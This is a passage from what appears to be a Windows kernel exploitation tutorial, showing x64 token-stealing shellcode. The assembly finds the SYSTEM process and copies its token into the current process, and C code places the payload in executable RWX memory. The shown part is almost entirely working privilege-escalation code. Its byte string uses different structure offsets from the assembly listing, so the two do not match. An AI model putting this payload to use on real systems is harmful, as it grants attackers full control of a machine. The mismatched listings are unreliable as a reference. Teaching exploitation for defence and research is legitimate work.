 Don't worry if you don't understand any of the steps, they will be explained later on.

### Shellcode
I am going to use a common generic shellcode that will copy the system access token to our process.

```asm
[BITS 64]
_start:
	mov rax, [gs:0x188]		; Current thread (_KTHREAD)
	mov rax, [rax + 0xb8]		; Current process (_EPROCESS)
	mov rbx, rax			; Copy current process (_EPROCESS) to rbx
__loop:
	mov rbx, [rbx + 0x2e8] 		; ActiveProcessLinks
	sub rbx, 0x2e8			; Go back to current process (_EPROCESS)
	mov rcx, [rbx + 0x2e0] 		; UniqueProcessId (PID)
	cmp rcx, 4 			; Compare PID to SYSTEM PID
	jnz __loop			; Loop until SYSTEM PID is found
	mov rcx, [rbx + 0x358]		; SYSTEM token is @ offset _EPROCESS + 0x358
	and cl, 0xf0			; Clear out _EX_FAST_REF RefCnt
	mov [rax + 0x358], rcx		; Copy SYSTEM token to current process
	xor rax, rax			; STATUS_SUCCESS
	ret				; Done!
```

```c
char payload[] = "\x65\x48\x8B\x04\x25\x88\x01\x00\x00"
	"\x48\x8B\x80\xB8\x00\x00\x00"
	"\x48\x89\xC3\x48\x8B\x9B\xF0\x02\x00\x00"
	"\x48\x81\xEB\xF0\x02\x00\x00"
	"\x48\x8B\x8B\xE8\x02\x00\x00"
	"\x48\x83\xF9\x04\x75\xE5"
	"\x48\x8B\x8B\x58\x03\x00\x00"
	"\x80\xE1\xF0\x48\x89\x88\x58\x03\x00\x00"
	"\x48\x31\xC0\xC3";
```

### Allocating rwx memory in user mode
Here we allocate a `rwx` memory region for our shellcode.

```c
void* shellcode = VirtualAlloc(
	NULL, // Address.
	sizeof(payload), // Size.
	0x3000, // Allocation Type.
	0x40 // Protection.
);

// Moving memory into allocated space in user mode.

RtlMoveMemory(
	shellcode,
	payload,
	sizeof(payload)
);

```
